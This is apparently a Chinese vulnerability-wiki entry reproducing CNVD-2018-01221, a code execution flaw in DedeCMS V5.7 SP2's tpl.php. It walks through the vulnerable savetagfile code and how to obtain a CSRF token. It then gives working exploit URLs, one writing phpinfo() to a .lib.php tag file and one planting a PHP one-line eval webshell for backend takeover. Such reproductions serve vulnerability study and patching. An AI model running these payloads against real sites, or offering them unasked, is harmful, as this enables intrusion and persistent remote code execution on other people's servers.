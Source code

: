 （CNVD-2018-01221）DedeCMS V5.7 SP2存在代码执行漏洞
===================================================

一、漏洞简介
------------

DedeCMS V5.7
SP2版本中tpl.php存在代码执行漏洞，攻击者可利用该漏洞在增加新的标签中上传木马，获取webshell

二、漏洞影响
------------

三、复现过程
------------

需要登录后台

根据公开的漏洞知道tpl.php里面251-281行存在代码执行漏洞，打开tpl.php文件

![](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId24.png)

### 代码分析

    (1)此处定义了一个savetagfile的函数，首先做一个判断，参数“action”是否等于savetagfile，如果等于，就进行下一步
    (2)csrf_chack(),这里有一个csrf检验的函数，我们需要加上token来绕过，token是登陆的令牌，当我们向服务器发送登录请求时，在客户端会生成一个用于验证的令牌。
    (3)正则表达式匹配，详情参见https://www.runoob.com/regexp/regexp-rule.html*
       [a-z0-9_-]{1,}的意思是，匹配所有包含一个以上的字母数字下划线和横杠，后面的\.意思是匹配小数点
       所以最终那个判断条件的意思是如果参数filename不符合上述的匹配条件，那么就不允许修改操作的进行，所以文件名必须要.lib.php结尾。
    (4)preg_replace的意思是执行一个正则表达式的搜索和替换，我们可以通过例子来分析一下,发现得到的$tagname的值为moonsec
    (5)stripslashes()的作用是引用用一个引用字符串，此处没有多大的作用
    (6)最后是把$content里的内容写入到相对用的路径里，问题就出在了这里，这一部分代码除了对写入的文件名字做了简单的过滤，除了有一个csrf防护之外，其他并没有什么安全措施，     
       导致我们可以任意写入代码，如果我们直接写入一句话木马，那么就可以直接连上去拿webshell了

根据上面的代码知道要上传的参数有：action,token,filename,content.现在只剩下获取token了，要怎么才能获取到token呢？我们再去tpl.php里看一下，发现action的参数有很多，比如del，upoladok，edit，upload等等，但只有传入upload的时候页面才会回显正常，而其他的都会显示token异常，所以只能通过action=upload来获取token。

### 漏洞复现

获取token

    http://0-sec.org/dede/tpl.php?action=upload

![](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId27.png)

然后查看网页源代码，找到token

![](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId28.png)

构造payload如下

    http://0-sec.org/dede5.7/dede/tpl.php?filename=(文件名随意).lib.php&action=savetagfile&content=%3C?php%20phpinfo();?%3E&token=f1ccc319d5c897a3a362335792a21e05(替换你复制的token)

访问了成功写入

![](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId29.png)

访问写入的文件

    http://0-sec.org/include/taglib/（你上传的文件名）.lib.php

![](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId30.png)

也可以构造一句话木马payload

    http://0-sec.org/dede5.7/dede/tpl.php?filename=caidao.lib.php&action=savetagfile&content=%3C?php%20@eval($_POST[%27dylan%27])?%3E&token=2d7ef87e9828edaad2d7b6bbe37f1929

![](/Users/aresx/Documents/VulWiki/.resource/(CNVD-2018-01221)DedeCMSV5.7SP2存在代码执行漏洞/media/rId31.png)
